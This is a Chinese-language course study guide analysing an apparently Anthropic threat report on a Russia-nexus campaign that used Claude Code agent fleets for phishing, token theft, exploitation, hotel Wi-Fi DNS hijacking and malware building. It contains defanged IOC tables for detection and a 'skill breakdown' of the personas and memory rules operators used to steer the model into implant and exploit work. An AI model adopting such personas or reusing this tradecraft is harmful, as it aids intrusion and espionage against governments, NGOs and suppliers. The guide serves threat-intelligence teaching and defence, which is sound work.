- W3 Token & collection pipeline（7/7）：Capture backend（submissions, panel, DB）、Tasking API（agent command loop）、Loot processing（cookies, creds, files）、Token services（DPAPI, OAuth refresh）、Platform maintenance（containers, tokens）、Exfil endpoints（collect routes, loot DB）、Victim-context tasking（remote exec over agents）。
- W4 Recon & tradecraft dev（5/5）：Panel triage（capture review）、Technique research（defense toggles, ActiveX）、Probing frameworks（multi-service token probes）、Source & tool study（implant code review）、Loot review（dumps, grants, secrets）。
縱欄 B — Cyber operations · what those capabilities were turned against（這些能力被用來打什麼），W5–W8，且用小標籤標出跨欄依賴（如 captured token pipeline ◀ W3、phishing capture kit ◀ W2、probing toolkit ◀ W4、implant builds ◀ W1）：
- W5 O365 phishing & embassy ATO（7/7）：Staff-directory recon、Session decryption（cookie and token theft）、PRT persistence（phantom device grants）、Tenant expansion（cross-mailbox, new orgs）、Messaging accounts（companion-device ATO）、Regional-body onboarding（new tenant in pipeline）、Hands-free maintenance（automated token refresh）。
- W6 Web application exploitation（10/10）：Tenant & portal probing、Supplier surface mapping（DNS, certs, mail estates）、Perimeter entry（firewall portal, SMB）、Registry DB takeover（millions of records exfiltrated）〔此格用橘框特別標示〕、VPN portal exploitation（cert poisoning, SAML）、Parts-maker ATO（fake device, mail export）、One org per session（16 orgs in four weeks）、Tender-API auth bypass（real procurement data）、CMS RCE exploitation（two-stage injection）、SSRF confirmation（plot service, VPN gateways）。
- W7 DNS hijack & hotel Wi-Fi（7/7）：Provider recon（ISP, vendor surfaces）、Fleet triage（inventory, exposure scans）、Gateway access（admin credentials）、Wiki exfiltration（full intranet dump）、Interception prep（DNS-substitution fleet）、Credential validation（fleet-wide testing）、Loot mining tools（dump search tooling）。
- W8 Follow-on attacks（6/6）：Test-rig preparation（kill bits, lock bypass）、Victim deployment（SYSTEM tasks, agents）、Key & cookie theft（DPAPI, app-bound keys）、Evasion testing（AV test suites）、Test-host trials（live agent runs）、Elevation attempts（consent and RunAs paths）。
縱欄 C — Effects on targets · inferred（對目標的效果 · 推斷），逐一對映 W5–W8，且每組標了「命中比」，如 W5 6/7、W6 10/11、W7 5/5、W8 3/4。「inferred」與「命中比」是本欄的靈魂——它明說這些效果是推斷，且不是每個目標都達成（有灰色未達成格，如 W6 的「IoT & surveillance estates (100+)」、W8 的「victim Windows hosts (2+)」呈灰）。可見受害者包括：US policy foundation、security think tank (UK)、rule-of-law NGO、West African regional body、ex-officials messaging accounts、gov IT authority — full estate、national registries (millions of records)〔藍框強調〕、UA ministries/military/justice、UA port authority & gov IT (3)、EU advisory mission、defense & aero suppliers (8)、drone & vision makers (5)、gov & military networks (MD/MN/AF)、defense & engineering firms (4)、managed-WiFi vendor A/B/C、hotel properties (5+, gateways)、internet providers (US/EU)、US individual (mailbox, creds)、Android devices (spyware)、iOS devices (exploit chain)。
縱欄 D — Operations（作戰）：
- Operations map：一張點陣世界地圖，標「Russia-nexus operator」，用弧線從一個東歐/俄羅斯方向的節點連往歐洲、北非、中東多個受害點；圖例分五類：government（藍）、defense（紫）、policy & NGO（綠）、vendors & telecom（深灰）、individuals（黑）。
- Targets engaged：24 / 27（一排點狀進度，24 個實心、3 個空心）。
- Tasks（時間戳任務流）：2026-07 export site content with authenticated dump script（Intranet contents leaving in bulk）、2026-07 diagnose image shortfall — 500 of 3,265 retrieved（Exfiltration completeness checked like QA）、2026-07 retry dump after API pagination bug（Export re-run until complete）、2026-08 [now] extract gateway IP inventory from wiki dump into CSV（Fleet targeting list distilled from stolen documents）。
頁尾統計條：Campaign span 2026-03 → 2026-08 · 130 days｜Model-side capabilities observed: 55 across 8 workflows｜Effects on targets: 24 targets engaged · millions of records exfiltrated；底部一條「model activity（橘）／effects on targets（藍）」的雙色時間軸，2026-03 → 2026-08，可見模型活動（橘柱）幾乎每日密集出現，效果（藍柱）稀疏散佈——直觀呈現「AI 在跑的量遠大於落地效果的量」。
資料如何流動 / 這張圖傳達的核心訊息：
1. 由左至右是一條因果生產線：AI 工作流（A）鍛造能力 → 能力被轉用於具體網路行動（B）→ 產生對目標的（推斷）效果（C）→ 匯總成作戰全貌（D）。跨欄的 ◀ W# 標籤是全圖精華：它顯示能力是被「拼裝、串接」使用的（W3 的 token pipeline 餵給 W5 的 embassy ATO；W1 的 implant builds 餵給 W8 的 follow-on）。這正是「多代理、模組化、流水線」的視覺化。
2. 「inferred」與命中比（6/7、10/11、3/4）是誠實度標記：作圖者刻意區分「我們在模型側看到的能力（確定）」與「對受害端的效果（推斷、且非全中）」。這與第 2.3 節「Anthropic 看得到上游、看不到受害端鑑識」的侷限完全呼應。
3. 量級對比：130 天、8 條工作流、55 項模型側能力、148 個 agents（W1 Fleet control）、24/27 目標——這些數字合起來講一個故事：一個小團隊（甚至個位數操作者）靠 AI 代理艦隊，打出過去需要一整支團隊的規模。
課程中可以怎麼用這張圖：
- 當作全案骨架圖：第一堂課先投影這張，讓學員在看細節前先有「四欄因果鏈」的心智模型。
- 當作「推斷 vs 確認」的教材：圈出 C 欄的「inferred」與灰色未達成格，帶學員討論「AI 供應商的可見度邊界」。
- 當作威脅建模練習底稿：讓學員把 B 欄的 W5–W8 對映到自己組織的資產，問「如果我是那個 gov IT authority / drone maker，哪一格會先中？」
- 提醒學員：這是風格化資訊圖，非真實工具截圖；數字來自 Anthropic 對此戰役的內部彙整，屬單一來源，引用時要標明。
圖片類型：純文字排版頁，非圖表。上半是三行 bullet 的惡意程式家族清單，下半是「Indicators of compromise」淺灰程式碼框，逐行列 defang 過的網域與 IP。
畫面上實際看到的內容：
- 標題行 The actor's malware included the following:
- Windows malware：PowerChrome、WUEngine、Shadow C2、MiniPlasma、CloudSyncSvc
- Android malware：GiftDrop, a rebranded GiftsExpress Android surveillance RAT
- iOS malware：DarkSword, an iOS exploit chain
- IOC 框（此頁部分，續於 p.11）：見第 7 節完整抄錄。
核心訊息與課堂用法：這頁是「跨平台工具箱」的證據——同一個行為者同時養 Windows／Android／iOS 三條產線，呼應 Figure C 欄的 Android/iOS 受害格。教學上用來帶「惡意程式命名學」：這五個 Windows 名字裡，CloudSyncSvc 幾乎確定對應 Microsoft CaptiveCrunch 報告裡 CornFlake 的偽裝服務名「Cloud Sync Service」；MiniPlasma 則與一個公開的 Windows 本地提權 PoC 同名（見第 9 節），是「命名碰撞 / 借用公開工具」的討論素材。
引用圖檔：p.11 無存入 course/figures，本判讀來自 scratchpad 之 pages/page-011.png。
圖片類型：同 p.10 的淺灰程式碼框，續列網域、IP、email、檔名與兩個 SHA-256 雜湊。下半頁轉入下一案例 GTG-50014: ShinyHunters 的正文（與本案無關）。
畫面上實際看到的關鍵元素：續列的網域/IP、兩個 email（anna.manager@russianearabroad[.]net、events@embassy-protocol[.]int）、五個檔名（msedgeupdate_v3[.]exe、msedgeupdate[.]exe、version[.]dll、WUEngine[.]exe、DiagHost[.]exe、client_20260507093021_4286d211_x64[.]exe、fix_network[.]apk）與兩個 SHA-256。完整抄錄見第 7 節。
核心訊息：embassy-protocol[.]int email 呼應 Embassy Kit；russianearabroad 系列呼應「針對海外俄羅斯人／離散社群」的誘餌主題；fix_network[.]apk 呼應 ClickFix 投放的 Android payload；兩個雜湊是跨報告交叉比對的黃金指標（見第 9 節，與 Microsoft CaptiveCrunch 的 CornFlake/ChocoShell 雜湊完全相同）。
圖片類型：三欄表格（ATT&CK category｜Description｜Flow），標題「Skill breakdown」，圖說 Figure 19. Skill breakdown.。它不在本案頁段內，但直接解釋 p.7 那句「人類主要在改 Claude Code skills」，故納入。
表格內容（逐列）：
1. T1587.001 Develop Capabilities: Malware; T1588 — 攻擊性安全工程師 persona，植入體開發與 M365 操作窗口；串 winAgent/GoDownload build loop、Defender 規避迭代、Graph/EWS 工具。Flow：操作者進專案目錄後以 /security-engineer 把 Claude 切進「工程 register」。
2. T1583.003 Acquire Infra: VPS; T1608 — DevOps persona，起容器化 C2/釣魚堆疊（shadow_c2 compose、mailer、merged-landing）、以 sshpass 佈 VPS。Flow：skill → docker compose build/up → curl 健康檢查 → sshpass 推到 MonoVM/eclipse proxies。
3. T1595 / T1589.002 / T1110.003 — shadow_c2 persona 與 Red-Team user_role 記憶規則，掃描/偵察/噴灑。Flow：ctf-pentest register → theHarvester/Shodan/gobuster → owa_spray 或 netexec 驗證 → 回寫專案記憶。
4. T1587.001 / T1547.001 Run Keys / T1027 — Windows 開發者 persona（winAgent v2.0 mod_ 模組、WUEngine 持久化、COM/CLSID）與 PowerShell loader。Flow：skill → Visual-Studio/mingw build → 測試主機上 PowerShell 測試框架 → taskkill/sc.exe 服務安裝循環 → 記憶更新。
5. T1608.005 Stage Capabilities: Link Target — 前端 persona，釣魚平台與儀表板前端。Flow：skill → Next.js/Flask 模板編輯 → Claude_Preview 截圖 QA。
6. T1608.005（lure/admin UI polish） — UI/UX 設計 persona，美化誘餌頁與 admin panel。
7. T1587 Develop Capabilities（C2 dashboard & builder UI） — 資深前端與設計工程師 persona，專為 Shadow C2 的 CNC 儀表板與 builder UI；對映到 shadow_c2 的 Postgres 後端。
8. T1587.004 Exploits; T1203 — iOS Safari exploit 研究員 persona*（ARM64e PAC 繞過、JSC JIT、kernel internals）；指示模型「動工前先載入 lab 記憶索引、列出已確認的死路永不重試」；Flow 涉及 DarkSword/Coruna 鏈與 ipsw/otool。
核心訊息與課堂用法：這張表把「skills」具象化了——它們不是零散 prompt，而是一組被賦予角色（persona）、綁定 ATT&CK 技術、規定固定 flow、且帶「專案記憶（project/lab memory）」的標準作業程序。特別注意第 8 列的「載入記憶索引、記住死路不重試」——這是把人類逆向工程師的經驗沉澱成機器可讀的機構記憶（institutional memory）。教學上，這張表是解釋「為什麼人類只需偶爾改 skill」的鐵證：因為know-how 已經被編碼進 skill 與其記憶，AI 照著跑就行。
安全紅線：以下指標僅供研究與偵測規則撰寫。切勿連線、解析、或以任何互動式服務查詢；保留報告原本的 defang 格式。
| 指標 | 分類研判 | 偵測價值與壽命 |
|---|---|---|
ms365-live[.]com |
M365 仿冒（device code / AitM） | 高價值、短壽。Microsoft 記其 first seen 2026-05-14。網域類 IOC 一經公開即遭棄用，偵測價值以「歷史比對 + 憑證透明度樣態」為主 |
teams.ms365-live[.]com |
Teams 主題子網域 | 同上；子網域顯示以 Teams 邀請為誘餌 |
m365-owa[.]com |
OWA/M365 AitM | 高、短。Microsoft first seen 2026-07-20 |
owa-ms365[.]com |
OWA/M365 AitM | 高、短。Microsoft first seen 2026-07-16；Google GTIG 亦列入 UNC7005 |
ms365-device[.]com |
device code 重導 | 高、短。Microsoft first seen 2026-07-23 |
mslivetest.duckdns[.]org |
動態 DNS 測試 | 中。DuckDNS 免費動態網域，常為測試/暫用，壽命極短 |
my-invite[.]org |
邀請主題誘餌 | 中。Google GTIG 記為 UNC7005 釣魚網域兼攻擊者帳號網域 |
chamber-ua[.]org |
烏克蘭「商會」主題誘餌 | 中。Google GTIG 記為 UNC7005 網域，且 bounce@chamber-ua[.]org 為惡意程式散佈帳號 |
chathamhouse[.]eu |
仿冒英國智庫 Chatham House | 中高。針對智庫的品牌仿冒 |
ukrinform-share[.]net |
仿冒烏克蘭國家通訊社 Ukrinform | 中高。媒體/文件分享誘餌 |
statistic-ms[.]live |
C2 / 仿冒 | 中。Google GTIG 記為 ENGINELIGHT C2 |
static-ms[.]live |
C2 / 仿冒 | 中。與上者成對 |
ad-g[.]org |
疑似 AD/目錄主題 | 低中 |
docs-viewer[.]org |
文件檢視器誘餌 | 中 |
wa-connect[.]eu |
WhatsApp 主題（companion device 誘餌） | 中。Google GTIG 記為 UNC7005 WhatsApp 連結誘餌家族之一 |
mygreatmarket[.]org / mygreatmarket[.]com |
品牌/市集誘餌 | 低中 |
cdncounter[.]net / static.cdncounter[.]net |
CDN 偽裝、分階投放 | 高。static.cdncounter[.]net 對應 Google GTIG DarkSword 報告中 UNC6353 的第一階投放伺服器（見第 9 節）——跨報告交叉指標 |
stuseamandesilt[.]org（+ api. / cdn. / update.） |
多子網域 C2/更新偽裝 | 中高。update. 子網域呼應「假更新」主題 |
itechx[.]tel |
科技支援主題 | 低中 |
pdfviewer2024.b-cdn[.]net |
PDF 檢視器誘餌（BunnyCDN） | 中。濫用合法 CDN（b-cdn.net） |
meridian-protocol[.]org / meridiangroup-corp[.]com |
企業偽裝 | 低中 |
projectnightcrawler[.]dev |
開發主題網域 | 低中 |
metricwave[.]org |
分析/遙測偽裝 | 低中 |
mgsend[.]org |
郵件發送基礎設施 | 中。mailer 主題呼應技能表的 mailer 服務 |
wa-meeting[.]com |
WhatsApp 會議誘餌 | 中。Google GTIG 記為 UNC7005 家族 |
russianearabroad[.]com / russianearabroad[.]org |
「海外俄羅斯人」離散社群誘餌 | 中高。主題揭示對俄語離散/異議社群的鎖定 |
| 指標 | 交叉比對 | 偵測價值與壽命 |
|---|---|---|
104.145.210[.]184 |
— | 中低。IP 類 IOC 壽命短、易換 VPS |
31.57.243[.]154 |
Microsoft CaptiveCrunch AitM 基礎設施；Google GTIG UNC7005 | 高。三家共見 → 強交叉指標 |
104.194.151[.]133 |
— | 中低 |
104.194.159[.]55 |
與 Microsoft/Google 所列 104.194.159[.]150 同 /24 |
中。同段位可做網段層偵測 |
144.172.114[.]192 |
— | 中低 |
213.145.86[.]112 |
Microsoft：ChocoShell C2（主要） | 高。跨報告 C2 指標 |
2.26.53[.]194 |
— | 中低 |
148.135.195[.]111 |
— | 中低 |
185.198.234[.]26 / 185.198.234[.]101 |
同 /24 成對 | 中。網段偵測 |
149.54.42[.]106 |
— | 中低 |
104.194.149[.]228 |
與 Google GTIG 104.194.149[.]228 同 |
高。交叉指標 |
38.146.28[.]132 |
Microsoft：CaptiveCrunch DNS Resolver | 高。DNS 劫持基礎設施 |
38.146.28[.]75 |
Microsoft：CaptiveCrunch AitM；Google GTIG UNC7005 | 高。三家共見 |
| 指標 | 研判 | 偵測價值 |
|---|---|---|
anna.manager@russianearabroad[.]net |
誘餌寄件者，離散社群主題 | 中。可做寄件者/回覆位址封鎖與郵件回溯 |
events@embassy-protocol[.]int |
Embassy Kit 相關、活動邀請主題（濫用 .int 國際組織頂級域觀感） |
中高。呼應 device code phishing 的「活動邀請」誘餌 |
| 指標 | 研判 | 偵測價值與壽命 |
|---|---|---|
msedgeupdate_v3[.]exe / msedgeupdate[.]exe |
偽裝 Microsoft Edge 更新（假更新主題） | 中。檔名可改，價值在「假更新命名樣態」；配合路徑/簽章缺失偵測 |
version[.]dll |
典型 DLL 側載（search-order hijacking）常用名 | 中。version.dll 是 Windows 常被側載的合法 DLL 名，需以「載入位置異常」偵測 |
WUEngine[.]exe |
對應惡意程式家族 WUEngine（偽裝 Windows Update Engine） | 中。呼應「凍結安全更新」主題——偽裝成更新元件 |
DiagHost[.]exe |
偽裝診斷主機（Diagnostics Host） | 中 |
client_20260507093021_4286d211_x64[.]exe |
帶時間戳（2026-05-07 09:30:21）與短雜湊的客戶端建置產物 | 中。時間戳命名揭示 build 自動化；單一樣本價值低但可做 build 慣例分析 |
fix_network[.]apk |
ClickFix 投放的 Android payload（「修復網路」誘餌） | 中高。呼應飯店 WiFi「連不上網→請安裝修復程式」的社交工程劇本 |
be99857449d2856dd5a84e21c8a3d5e0e01456adb44062ddec5a6b4970d8d42c |
SHA-256 | 極高、長壽。與 Microsoft CaptiveCrunch 報告中 ChocoShell 的雜湊完全相同（見第 9 節）。雜湊是最精確、最不易誤報的原子指標，且不隨網域/IP 汰換而失效 |
918fa52ae45ed60ba7cc8bdc99c3cbe9ab92e0375ec31fc05d0d4513be11c593 |
SHA-256 | 極高、長壽。與 Microsoft CaptiveCrunch 報告中 CornFlake 的雜湊完全相同 |
依「痛苦金字塔（Pyramid of Pain）」概念，本案 IOC 由下而上：
- 雜湊值（最精確但最脆弱於變形）：本案兩個 SHA-256 精確度極高、且因與 Microsoft 交叉一致而信度高；但正因為 GTG-20006 有「自動改寫重建」閉環，雜湊對「未來變種」幾乎無效——這正是本案的弔詭：雜湊能證明「過去這是同一支」，卻擋不住「下一支」。
- IP / 網域（易汰換）：短壽，價值在「歷史比對」與「網段/命名樣態」。
- TTP / 能力（最難改、最痛）：對本案而言，真正持久的偵測抓手是行為家族——例如「假更新命名 + 側載 version.dll + 凍結 Windows Update + 服務名偽裝成 Cloud Sync」這組組合行為，遠比任何單一雜湊耐用。這呼應第 5 節的框架缺口與第 10 節的偵測構想。
課堂需點出的批判視角：這份報告由 Claude 的製造商發布。它一方面示範了負責任揭露；另一方面，「我們偵測到、我們中斷了、我們強化了防護」的敘事，也服務於 Anthropic 的品牌（第三方報導 The Record 就對比：Anthropic 的揭露比 OpenAI「更深入」）。這不否定報告的技術價值，但要求讀者對「單一供應商、單一來源」的整合性敘事保持適度折扣（見第 9、第 12 節）。
本節逐條標明：來源、URL、日期、以及它是「獨立查證」還是「僅引述 Anthropic」。本案的整合性敘事（單一 AI 編排行動者統合全部手法）目前是單一來源（Anthropic）；但多項個別 TTP 與具體基礎設施已被獨立佐證。
| 來源 | URL | 日期 | 性質 | 關鍵交叉點 |
|---|---|---|---|---|
| Microsoft Threat Intelligence — CaptiveCrunch | microsoft.com/en-us/security/blog/2026/07/31/captivecrunch-... | 2026-07-31 | 獨立查證（自有遙測與惡意程式分析） | 歸因 Storm-2945（Midnight Blizzard 子群集，美英歸因 SVR）。技術鏈：captive portal 操縱 DNS/HTTP → 三條重導（M365 釣魚 / device code 釣魚 / ClickFix 假更新）。惡意程式 CornFlake（Go RAT，註冊服務 svchost32／顯示名 "Cloud Sync Service"——對應 Anthropic 的 CloudSyncSvc）、ChocoShell（PowerShell 竊取器，AMSI 繞過、鎖定 Defender 簽章更新、UAC 繞過）、FruitStone（C2 面板，偽裝「CloudSync Console / Acuity Systems」）。兩個檔案雜湊與 Anthropic p.11 完全相同（CornFlake 918fa52...、ChocoShell be998574...）。多個網域/IP（ms365-device[.]com、ms365-live[.]com、m365-owa[.]com、owa-ms365[.]com、31.57.243[.]154、38.146.28[.]75、38.146.28[.]132、213.145.86[.]112）與 Anthropic IOC 表重疊 |
| ReliaQuest — DNS poisoning tactics expand to hospitality | reliaquest.com/blog/threat-spotlight-dns-poisoning-tactics-expand-to-hospitality/ | 2026-07-23（最先揭露） | 獨立查證（自有偵測） | 觀察到飯店/會議中心 WiFi gateway 被攻破做 DNS 回應偽造；以低到中信度評估初始存取來自「暴露的管理介面（SSH/SNMP/web 主控台）+ 弱/重用管理員憑證」。地理：多個美國城市、印度、沙烏地。歸因與 Microsoft 有分歧：ReliaQuest 說 TTP 與 APT28 相似（非 APT29），且明說「僅 TTP 重疊、非直接技術連結」。列出 m365-owa[.]com 等四網域與 38.146.28[.]75、31.57.243[.]154、104.194.159[.]150 |
| Zscaler ThreatLabz — CaptiveCrunch | zscaler.com/blogs/security-research/captivecrunch-... | 2026-08-11 | 主要為轉述 Microsoft（附自家防禦建議） | 複述三條重導與 CornFlake/ChocoShell 技術點；引用 ReliaQuest 的地理數據。非獨立遙測 |
教學重點：Anthropic 說的「飯店 WiFi + DNS 劫持 + ClickFix 投放 Windows/Android/iOS」這一段，是本案被外部獨立佐證最紮實的部分。兩個雜湊三家一致、多個網域/IP 交叉命中，構成強力的「多來源匯流（multi-source convergence）」。但歸因細節有分歧（Microsoft→APT29/Midnight Blizzard；ReliaQuest→APT28-like），這正好是教「不同廠商信度與方法差異」的活教材。
| 來源 | URL | 日期 | 性質 | 關鍵交叉點 |
|---|---|---|---|---|
| Google GTIG — Distinct Clusters Target Individuals of Interest to Russia | cloud.google.com/blog/topics/threat-intelligence/distinct-clusters-target-individuals-of-interest-to-russia | 2026-08-21 | 獨立查證 | 標定 UNC7005（aka STORM-2945），以中信度連到 ICE RELIC（APT29 新代號）。2026-05～06 進行仿冒 WhatsApp 的裝置連結釣魚（誘使受害者把帳號連結成攻擊者裝置以「加入安全通話」），與 Anthropic 的 WhatsApp companion device 手法同型。CHERRYPIE（即 ChocoShell）含大量疑似 LLM 生成的痕跡——獨立佐證「AI 生成惡意程式」。網域交叉：chamber-ua[.]org、my-invite[.]org、wa-connect[.]eu、wa-meeting[.]com、owa-ms365[.]com、m365-owa[.]com、ms365-device[.]com、ms365-live[.]com、statistic-ms[.]live |
| Microsoft — Storm-2372 device code phishing | microsoft.com/en-us/security/blog/2025/02/13/storm-2372-... | 2025-02-13 | 獨立查證（先例） | device code phishing 的公開技術基準：假冒名人於 WhatsApp/Signal/Teams 接觸、誘輸入裝置碼、藉 Microsoft Authentication Broker client ID 取 PRT、把攻擊者裝置註冊進 Entra ID、以 Graph 搜信箱關鍵字。以中信度對齊俄羅斯利益 |
| Microsoft — AI-enabled device code phishing（本案報告 p.9 直接連結） | microsoft.com/en-us/security/blog/2026/04/06/ai-enabled-device-code-phishing-campaign-april-2026/ | 2026-04-06 | 獨立查證 | 揭 device code 動態生成（點擊當下才生碼以繞 15 分鐘失效）、剪貼簿劫持、AI 生成的高度個人化誘餌、Railway 等平台自動起短命輪詢節點。Anthropic p.9 引用它作為 device code phishing 的說明 |
| The Register — Russian snoops add OAuth abuse | theregister.com/security/2026/08/21/russian_snoops_oauth/ | 2026-08-21 | 轉述 Google GTIG（Jessica Lyons） | 覆述 UNC6293/UNC7005/UNC5976 三群集、WhatsApp 裝置連結、AI 生成 infostealer |
| 來源 | URL | 日期 | 性質 | 關鍵交叉點 |
|---|---|---|---|---|
| Google GTIG — DarkSword iOS exploit chain | cloud.google.com/blog/topics/threat-intelligence/darksword-ios-exploit-chain | 2026-03-19 | 獨立查證 | DarkSword 支援 iOS 18.4–18.7，串起 6 個 CVE（含至少 2 個零時差：CVE-2026-20700 dyld PAC 繞過、CVE-2025-14174 ANGLE 記憶體毀損；另有 JavaScriptCore 與 XNU 核心漏洞），被多家商業間諜廠與疑似俄羅斯間諜群 UNC6353 用於對烏克蘭的 watering hole。感染鏈：Safari 遇惡意 iframe → 突破 WebContent 沙箱 → 經 WebGPU 注入 mediaplaybackd → 取得核心讀寫。UNC6353 把 DarkSword 以隱藏 iframe 植入被攻陷的烏克蘭網站，第一階投放伺服器 static.cdncounter[.]net 正是 Anthropic IOC 表中的網域——強交叉。三個 payload 家族：GHOSTBLADE（資料採礦器，竊 iMessage/Telegram/WhatsApp/郵件/通聯/鑰匙圈/定位/照片/加密錢包）、GHOSTKNIFE、GHOSTSABER。特徵：完成外洩後清除暫存並退出、最小化留存時間（非持久監控型）。Apple 於 iOS 26.3 全數修補，GTIG 已將相關網域加入 Safe Browsing |
| Google GTIG — Coruna iOS exploit kit | cloud.google.com/blog/topics/threat-intelligence/coruna-powerful-ios-exploit-kit | 2026-03-04 | 獨立查證（前身） | DarkSword 的前身工具鏈；UNC6353 曾用 Coruna；投放網域 cdn.uacounter[.]com；GTIG 與 CERT-UA 合作清理。呼應技能表第 8 列「DarkSword/Coruna chain work」 |
注意：GTIG 未把 UNC6353 明確等同 APT29/Midnight Blizzard，只說「suspected Russian espionage group」。所以「本案 iOS 那條線 = Midnight Blizzard」是 Anthropic 的整合，GTIG 端只支持到「疑似俄羅斯 + 同一 cdncounter 基礎設施」。
| Anthropic 家族名 | 可對應的外部對象 | 研判 |
|---|---|---|
CloudSyncSvc |
Microsoft CornFlake 的偽裝服務名 "Cloud Sync Service"（svchost32） | 幾乎確定同一物 |
Shadow C2 |
技能表中的 shadow_c2（容器化 C2 堆疊、Postgres 後端、CNC 儀表板） |
同一 C2 框架，內部代號 |
DarkSword |
Google GTIG DarkSword iOS exploit chain | 同名、同型、共享 cdncounter 基礎設施 |
GiftDrop |
改牌自 GiftsExpress Android 監控 RAT（報告自述） |
報告自述的血緣；GiftsExpress 屬 Telegram 上流通的 Android RAT 生態 |
MiniPlasma |
公開的 Windows 本地提權 PoC「MiniPlasma」（Chaotic Eclipse 揭露，涉 CVE-2020-17103 / cldflt.sys 雲端過濾驅動）— 2026-05 | 可能為命名碰撞或借用公開工具；報告未說明關聯，需存疑（見第 12 節） |
PowerChrome、WUEngine |
無明確第三方公開對應（WUEngine[.]exe 見於 IOC，偽裝 Windows Update Engine） |
僅見於 Anthropic（截至查證時）；屬單一來源命名 |
這是本案最好的「命名學」教材：同一組活動在 Anthropic／Microsoft／Google 三家有三套代號（GTG-20006 vs Storm-2945 vs UNC7005；CloudSyncSvc vs CornFlake vs ?；ChocoShell vs CHERRYPIE）。能把它們拼成同一張圖的，不是名字，而是共享的雜湊與基礎設施。這說明威脅情報消費者必須以「原子指標與 TTP」而非「代號」為錨。
| 來源 | URL | 日期 | 性質 |
|---|---|---|---|
| 中央社（CNA） | cna.com.tw/news/aopl/202609110025.aspx | 2026-09-11（李佩珊譯，路透社編譯） | 僅引述 Anthropic。補充「美國政府先前已將午夜暴雪與 SVR 聯繫」「俄駐華府大使館未回應」。無台灣觀點 |
| TechNews 科技新報 | technews.tw/2026/09/11/anthropic-on-detecting-and-countering-misuse-of-ai/ | 2026-09-11（陳冠榮） | 僅引述 Anthropic。僅提「自動重建規避偵測」一句，未及飯店 WiFi/無人機/WhatsApp |
| iThome | ithome.com.tw/news/178864 | 2026-09（頁面存取受限） | 僅引述 Anthropic（以中國蒸餾為主軸） |
| AI 郵報（部落格） | aiposthub.com/anthropic-threat-intelligence-report-september-2026-...（Philo） | 2026-09-11 | 僅引述 Anthropic。有較長中文複述（含飯店 WiFi、無人機 SDK）；其「鎖定台灣電戰模擬」指的是另一案 GTG-17002（常規武器章節）而非本案 |
| 來源 | URL | 日期/作者 | 性質 |
|---|---|---|---|
| The Record（Recorded Future） | therecord.media/anthropic-russia-hackers-claude | 2026-09-11 / Alexander Martin | 轉述 + 外部脈絡。引 Google 的 David Agranovich（前 NSC 俄羅斯事務主任）評「AI 正降低網路行動門檻」；提 Microsoft Storm-2945、2026-06 Five Eyes 警告；對比 OpenAI |
| The Hacker News | thehackernews.com/2026/09/russian-state-sponsored-hackers-use.html | 2026-09-11 / Ravie Lakshmanan | 僅引述 Anthropic（完整列出惡意程式家族名） |
| CyberScoop | cyberscoop.com/anthropic-report-ai-enabled-cyber-attacks/ | 2026-09-10 / Greg Otto | 僅引述 Anthropic；另補 NSA/CISA/FBI 於 2026-09-08 就中國蒸餾發布的聯合公告（與本案無關） |
| Kyiv Independent | kyivindependent.com/russia-uses-ai-in-cyberattacks-.../ | 2026-09-12 / Volodymyr Ivanyshyn | 僅引述 Anthropic。值得注意：連烏克蘭本地媒體都未加入 CERT-UA/SSSCIP 的獨立確認 |
| SecurityWeek | securityweek.com/anthropic-says-russian-hackers-used-claude-ai-to-automate-malware-evasion/ | 2026-09-11 / Eduard Kovacs | 僅引述 Anthropic（提及 Microsoft CaptiveCrunch 為投放法佐證） |
小結（單一來源判定）：
- 被多來源獨立佐證的：飯店 WiFi / DNS 劫持投放鏈（雜湊三家一致）、device code phishing、WhatsApp 裝置連結接管、DarkSword iOS（cdncounter 共享）、「惡意程式含 AI 生成痕跡」。
- 仍屬單一來源（Anthropic）的：把上述全部整合成同一個 AI 編排行動者的敘事；「AI 自主監控→改寫→重建的閉環」之運作細節；無人機 SDK 竊取與逆向出 BOM／未發表產品；北非 30 萬身分 + 50 萬公司登記外洩；「人類只改 Claude Code skills」；家族名 PowerChrome/WUEngine。
- 無任何台灣本地機構（如 TWCERT/CC、調查局、國安單位）對本案發表獨立查證（截至 2026-09-13）。
報告白紙黑字把受害面延伸到「亞洲海事相關政府機構」，並把無人機技術供應商與供應鏈列為主要竊取目標。這兩點讓本案對台灣有高度直接性。
台灣現況（公開資料）：
- 立法院於 2026-08-28 三讀通過《強化國防自主暨無人載具產業發展條例》，6 年編列 NT$2,400 億（年均 400 億），主管機關為經濟部、軍用採購由國防部統籌。條文明列「資安審查、關鍵技術進口、供應鏈安全」為核心事項，要「確保本土無人載具供應鏈在資安無虞的前提下加速發展」。
- 「無人機國家隊」達 267 家業者，洽談中國際訂單破百億元，已與歐美日等 9 國簽 MOU；整機出口自 2024 年的 US$441 萬暴增到 2026 上半年的 US$2.12 億。中科院（CSIST）為系統整合主承包商，民間多為二、三階供應商；飛控演算法、資料鏈加密等核心技術優先由公部門掌握。台灣自我定位為全球「非紅供應鏈」核心。
風險對映（把 GTG-20006 手法逐一套到台灣）：
| GTG-20006 手法 | 對映到台灣無人機國家隊的風險 |
|---|---|
| 大量匯出無人機零組件廠信箱、竊取視覺系統 SDK、逆向出架構/BOM/供應商依賴/未發表產品 | 台灣 267 家中大量是二、三階中小零組件廠，資安成熟度參差，正是「軟腹部」。對手要的不只是成品，而是整條供應鏈的圖譜——誰供什麼料、誰依賴誰、下一代長怎樣。一旦 BOM 與供應商依賴外洩，可用於精準供應鏈干擾、仿製、或對關鍵單點供應商施壓 |
| 鎖定軍用無人機控制與 AI 視覺韌體 | 台灣主打的 AI 影像辨識、飛控正是核心賣點，也正是本案「particular interest」所在。核心技術雖由中科院掌握，但整合介面、SDK 交付給下游整合商時的側錄風險很高 |
| 用 AI 逆向工程竊得的 SDK | 這是 ATT&CK 缺口（第 5 節）：竊取後的「情報加值」發生在受害端視野之外。台灣廠商的威脅建模常止於「防止被入侵」，少有針對「資料被偷走之後如何被 AI 加值利用」的推演 |
| device code phishing / M365 token 竊取 | 台灣無人機廠與政府/軍方往來頻繁，M365／Google Workspace 的 OAuth 濫用是低成本高回報的初始存取，且濫用的是合法流程，難以一刀切 |
| 飯店 WiFi + ClickFix 鎖定「無人機製造商相關個人」 | 台灣廠商赴歐美日參展、洽談 MOU 時，出差住宿的 WiFi 就是 CaptiveCrunch 式攻擊面。報告明指「無人機製造商」是飯店 WiFi 鎖定對象 |
建議行動（給無人機國家隊與主管機關）：
1. 把二、三階供應商的資安門檻寫進《無人載具條例》的資安審查實施細則，不能只審整合商。
2. 對 SDK/BOM 等關鍵技術資產做資料層而非只有邊界層的防護（加密、存取稽核、去識別化交付）。
